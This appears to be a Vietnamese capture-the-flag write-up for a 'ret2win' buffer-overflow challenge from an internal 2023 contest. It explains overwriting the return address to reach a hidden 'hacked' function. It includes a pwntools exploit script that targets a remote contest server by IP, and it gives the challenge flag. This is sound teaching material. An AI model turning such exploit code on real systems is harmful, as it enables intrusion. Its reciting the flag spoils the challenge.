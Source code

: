 Dùng IDA để phân tích mã nguồn
Bạn có thể xem mã nguồn gốc của thử thách tại đây: [source.c](../challenge/src/source.c)

---
Phân tích mã nguồn, có một hàm là hàm `**hacked**` được dùng để đọc flag. Tuy nhiên hàm này lại không được gọi tới để sử dụng
![Alt text](/img/vsl-internal-2023/image29.png)

Để khai thác bài này, chúng ta phải khai thác lỗi Buffer Overflow để ghi đè địa chỉ trả về của hàm main bằng địa chỉ của hàm `**hacked**`.

Mình đã viết một mã python để khai thác tự động thử thách này.
Xem và tải nó tại đây: [solve.py](./solve.py)

```python
from pwn import *

exe = "ret2win" # Thay nó bằng đường dẫn tới file ret2win
elf = context.binary = ELF(exe, checksec=False)

def find_eip_offset(payload):
   p = process(exe)
   p.sendlineafter(b"name:\n",payload)
   p.wait()
   return cyclic_find(p.corefile.eip)

# r = process(exe)

# Bỏ comment dòng dưới nếu muốn chạy trên server, đổi địa chỉ IP và port tương ứng
r = remote("61.14.233.78", 10002)

offset = find_eip_offset(cyclic(100))

hackedAdd = elf.symbols.hacked

rop = ROP(elf)
rop.hacked()
payload = flat({
   offset: rop.chain()
})

r.sendlineafter(b"name:\n", payload)
r.interactive()
```

Cách payload này hoạt động và cách giải tay mình sẽ hướng dẫn trong những buổi training tiếp theo.

![Alt text](/img/vsl-internal-2023/image30.png)

`FLAG: VKU{r3t_t0_w1n_k0aon129sja}`

## Reverse Engineering
